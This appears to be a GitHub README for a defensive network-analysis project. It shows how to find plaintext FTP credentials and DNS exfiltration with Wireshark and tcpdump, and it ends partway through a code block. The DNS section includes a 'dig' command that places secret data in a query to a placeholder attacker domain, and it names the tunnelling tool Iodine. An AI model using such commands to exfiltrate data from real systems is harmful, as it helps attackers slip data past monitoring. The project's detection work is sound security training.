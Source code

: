 # 🔍 Network Traffic Analysis with Wireshark & tcpdump

## 📘 Overview
This project demonstrates how to use Wireshark and tcpdump on Kali Linux to capture and analyze different types of network traffic. It focuses on identifying insecure protocols and suspicious behaviors such as plaintext credentials and data exfiltration through DNS.

The goal is to showcase practical network analysis skills relevant to cybersecurity roles such as SOC Analyst and Security Analyst.

---

## 🛠️ Tools Used
- Kali Linux (2024.1)
- Wireshark
- tcpdump
- FTP server (vsftpd or Metasploitable)
- Dig / Iodine for DNS testing

---

## 🧪 Traffic Analysis

### 1️⃣ FTP Login in Plaintext

- **Capture File:** `ftp_login.pcap`
- **Scenario:** A user logs into an FTP server using unencrypted credentials.
- **Findings:** The credentials were clearly visible in the packet capture.
  
#### 🔎 Key Observations:
- FTP transmits credentials in plaintext.
- Wireshark filter used: `ftp.request`
- Captured `USER` and `PASS` commands with values.

📷 **Screenshot:**  
![FTP Login](screenshots/ftp_login.png)

---

### 2️⃣ DNS Exfiltration Attempt

- **Capture File:** `rpl-dio-mc-nsa-optional-tlv-dissector-sample.pcap`
- **Scenario:** A client encodes sensitive data into DNS queries.
- **Findings:** Suspiciously long or randomized domain names that indicate potential exfiltration.

#### 🔎 Key Observations:
- Used `dig` to simulate exfiltration:
  ```bash
  dig verysecretdata.attacker-domain.com

